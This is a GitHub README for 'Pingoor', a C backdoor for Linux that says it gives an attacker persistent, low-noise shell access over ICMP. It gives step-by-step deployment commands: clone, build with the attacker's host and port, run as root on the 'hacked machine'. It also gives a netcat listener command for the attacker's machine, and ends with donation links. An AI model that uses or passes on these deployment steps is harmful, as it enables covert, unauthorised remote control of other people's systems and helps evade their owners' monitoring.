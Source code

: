 <h1 align="center">「🚪」About Pingoor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Pingoor is a backdoor developed in C for the GNU/Linux operating system. Its main characteristic is to use the ICMP protocol to give the attacker access to the shell of a machine, making its access persistent with little noise.</p>

## How to Use

```
# Hacked machine
$ git clone https://github.com/Brosck/Pingoor.git
$ cd Pingoor
$ HOST=<YOURHOST> PORT=<YOURPORT> make
$ sudo ./pingoor
```

```
# Attacker machine
nc -lnvp <YOURPORT>
```

## Buy me a coffee?

<a href="https://pixgg.com/MrEmpy" target="_blank">
  <img src="https://pixgg.com/img/logo-darkmode.046d3b61.svg" height="30" widght="30">
</a>
</br>
</br>
<a href="https://www.buymeacoffee.com/mrempy" target="_blank">
  <img src="https://play-lh.googleusercontent.com/aMb_Qiolzkq8OxtQZ3Af2j8Zsp-ZZcNetR9O4xSjxH94gMA5c5gpRVbpg-3f_0L7vlo" height="50" widght="50">
</a>
